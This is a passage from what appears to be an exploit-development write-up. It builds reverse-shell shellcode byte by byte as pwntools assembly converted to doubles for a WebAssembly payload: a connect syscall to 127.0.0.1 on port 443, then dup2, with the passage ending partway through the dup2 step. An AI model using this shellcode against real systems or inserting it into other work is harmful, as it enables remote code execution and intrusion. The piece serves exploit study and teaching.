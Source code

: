 - I'm using port 443, it's `0x01bb` be in hexadecimal
- So first let's move `0x0`, `0x01` & `0xbb` into the rsp

```python
## IP crafting
make_double(asm("mov BYTE PTR [rsp+0x4], 0x7f"))
make_double(asm("mov BYTE PTR [rsp+0x5], 0x00"))
make_double(asm("mov BYTE PTR [rsp+0x6], 0x00"))
make_double(asm("mov BYTE PTR [rsp+0x7], 0x01"))
```

- For now I'm using the ip `127.0.0.1` to get a sample shell, it's hexadecimal value is `0x7f000001`, so I'm moving that value byte by byte into the rsp

```python
## remaining connect
make_double(asm('mov rsi,rsp'))
make_double(asm('push 0x10'))
make_double(asm('pop rdx'))
make_double(asm('push r8'))
make_double(asm('pop rdi'))
make_double(asm('push 0x2a'))
make_double(asm('pop rax'))
make_double(asm('syscall'))
```

- You know the drill, convert it to hex, float, wat & wasm

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023235624.png)

- This shellcode worked perfectly, and we got a socket connection to our netcat
- Now let's do the remaining `dup2` & `execve` syscalls

#### dup2 syscall

```python
make_double(asm('xor rsi,rsi'))
make_double(asm('push 0x3'))
make_double(asm('pop rsi'))
make_double(asm('dec rsi'))
make_double(asm('push 0x21'))
make_double(asm('pop rax'))
make_double(asm('syscall'))
```

- We can do this dup2 syscall, but

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024000043.png)

- We need to implement this jne functionality in our 6 byte restricted shellcode
- In python pwntools, we can't write shellcode like this `jne` , we need to go in reverse

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024000343.png)

- So we need to use a actual byte from a `jne` instruction and add it in our shellcode
- Now it looks like `0x9090909090909f75`
